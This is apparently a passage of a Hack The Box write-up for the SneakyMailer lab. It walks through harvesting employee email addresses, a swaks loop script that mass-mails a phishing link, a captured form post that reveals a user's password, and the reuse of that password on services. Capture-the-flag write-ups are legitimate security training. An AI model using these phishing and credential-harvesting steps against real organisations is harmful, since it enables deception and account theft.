




# 10 - HTTP

# sneakycorp.htb
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ curl -I 10.10.10.197 
HTTP/1.1 301 Moved Permanently
Server: nginx/1.14.2
Date: Mon, 06 Sep 2021 12:37:35 GMT
Content-Type: text/html
Content-Length: 185
Connection: keep-alive
Location: http://sneakycorp.htb
```

The server redirects us to sneakycorp.htb. Let us add this vhost to our /etc/hosts file to continue.


# index.php



PyPi stands for The Python Package Index we will come to that later. For now let us focus on what we have on here. On the top right corner, there is a note telling users to expect an email for registration. That is actually a hint that users are really checking their emails so we can send some phishing emails. 

# team.php


team.php includes all the employee names along with their email addresses. We can send phishing emails to everybody listed here to see how they respond.


# clickme.sh
```bash
┌─[user@parrot]─[10.10.14.9]─[~/htb/sneakymailer]
└──╼ $ cat clickme.sh 
for i in $(cat emails.txt);
do
  swaks --to $i --from refika@sneakymailer.htb --server sneakymailer.htb --header 'Subject: Test' --body 'please click this link http://10.10.14.9/';
done
```

clickme.sh loops through all the emails and sends a link to every employee. Links are useful, if they click we will know their user agent at the very least.

# Paul Clicks The Link


Seemingly, paul did more than just click, he was expecting a link to register so he went ahead and sent all the information including his password to our malicious link.


# Password
```
firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt
```

Credentials:

* paulbyrd: ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht

At this point we should try these credentials on some of the services starting from ssh but it works neither on ssh nor ftp. There is only one service left and that is the mail server. 

# Credentials for developer


Yay! The credentials work only on ftp.


